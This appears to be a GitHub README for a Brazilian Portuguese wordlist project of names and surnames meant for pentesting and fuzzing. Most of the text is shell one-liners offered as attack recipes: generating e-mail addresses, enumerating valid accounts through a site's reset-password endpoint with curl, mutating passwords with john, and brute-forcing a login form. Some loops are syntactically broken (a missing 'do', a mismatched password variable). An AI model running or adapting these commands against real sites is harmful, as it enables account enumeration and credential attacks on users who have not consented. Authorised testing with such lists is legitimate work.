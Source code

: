 # Wordlists-PT-BR
Wordlists em PT-BR, desde nomes, sobrenomes, e em breve adicionaremos endpoints em português para fuzzing. Todas as informações foram extraídas de fontes públicas.


### Criar wordlist de emails concatenando `nome.sobrenome@domain.com`
```
./script.sh nomes.txt sobrenomes.txt domain.com > emails.txt
```
### Brute Force para encontrar emails válidos - Reset Password
```
for email in `cat emails.txt`; do curl -X POST --data "email=$email" "https://domain.com.br/reset-password" -s; done
```
or
```
for nome in `cat nomes.txt`; for sobrenome in `cat sobrenomes.txt`; do curl -X POST --data "email=$nome.$sobrenome@domain.com.br" "https://domain.com.br/resetpassword" -s ; done
```
### Gerar mutação de senha através de poucos nomes fornecidos no txt
```
john --rules=all --stdout --wordlist=nomes.txt > passwords.txt 
```
### Brute Force - Login
```
for email in `cat emails.txt`; for b in `cat passwords.txt`; do curl -X POST --data "email=$email&password=$password" "https://domain.com.br/login" -s; done
```
